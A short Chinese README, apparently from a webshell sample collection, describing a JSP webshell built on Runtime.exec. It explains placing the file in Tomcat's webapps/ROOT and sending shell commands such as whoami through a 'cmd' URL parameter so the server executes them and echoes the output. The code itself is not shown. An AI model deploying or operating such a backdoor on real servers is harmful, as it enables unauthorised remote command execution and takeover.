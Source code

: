 ### Runtime.exec的JSP WebShell


使用：
```
1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问17.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/17.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```

